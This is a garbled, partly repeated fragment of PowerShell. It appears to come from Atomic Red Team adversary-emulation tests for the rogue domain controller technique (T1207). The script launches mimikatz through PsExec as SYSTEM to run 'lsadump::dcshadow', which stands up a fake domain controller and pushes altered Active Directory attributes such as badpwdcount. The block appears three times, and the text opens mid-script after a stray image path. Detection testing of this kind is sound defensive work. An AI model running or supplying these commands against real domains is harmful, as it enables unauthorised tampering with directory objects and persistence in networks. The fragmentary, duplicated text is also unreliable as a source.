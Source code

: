 # server ready, so trigger replication (push) and wait until it finished
& $env:TEMP\mimikatz\x64\mimikatz.exe "lsadump::dcshadow /push" "exit"

Write-Host "`nWaiting for fake DC server to return"
Wait-Process $dc

Write-Host "`nOutput from fake DC server:"
Get-Content $dc_output_file
Start-Sleep 1 # wait a little until the file is not locked anymore so we can actually delete it
Remove-Item $dc_output_file -ErrorAction Ignore

Write-Host "End of DCShadow"
* # starting fake DC server, as SYSTEM (required)
$dc_output_file = "$env:TEMP\art-T1207-mimikatz-DC.log"
Remove-Item $dc_output_file -ErrorAction Ignore
$mimikatzParam ="`"log $dc_output_file`" `"lsadump::dcshadow /object:#{object} /attribute:#{attribute} /value:#{value}`" `"exit`""
$dc = Start-Process -FilePath cmd.exe -Verb Runas -ArgumentList "/c C:\PSTools\PsExec.exe /accepteula -d -s #{mimikatz_path} $mimikatzParam"

# wait for fake DC server to be ready...
Start-Sleep -Seconds 5

# server ready, so trigger replication (push) and wait until it finished
& #{mimikatz_path} "lsadump::dcshadow /push" "exit"

Write-Host "`nWaiting for fake DC server to return"
Wait-Process $dc

Write-Host "`nOutput from fake DC server:"
Get-Content $dc_output_file
Start-Sleep 1 # wait a little until the file is not locked anymore so we can actually delete it
Remove-Item $dc_output_file -ErrorAction Ignore

Write-Host "End of DCShadow"
* # starting fake DC server, as SYSTEM (required)
$dc_output_file = "$env:TEMP\art-T1207-mimikatz-DC.log"
Remove-Item $dc_output_file -ErrorAction Ignore
$mimikatzParam ="`"log $dc_output_file`" `"lsadump::dcshadow /object:#{object} /attribute:badpwdcount /value:#{value}`" `"exit`""
$dc = Start-Process -FilePath cmd.exe -Verb Runas -ArgumentList "/c #{psexec_path} /accepteula -d -s #{mimikatz_path} $mimikatzParam"

# wait for fake DC server to be ready...
Start-Sleep -Seconds 5

# server ready, so trigger replication (push) and wait until it finished
& #{mimikatz_path} "lsadump::dcshadow /push" "exit"

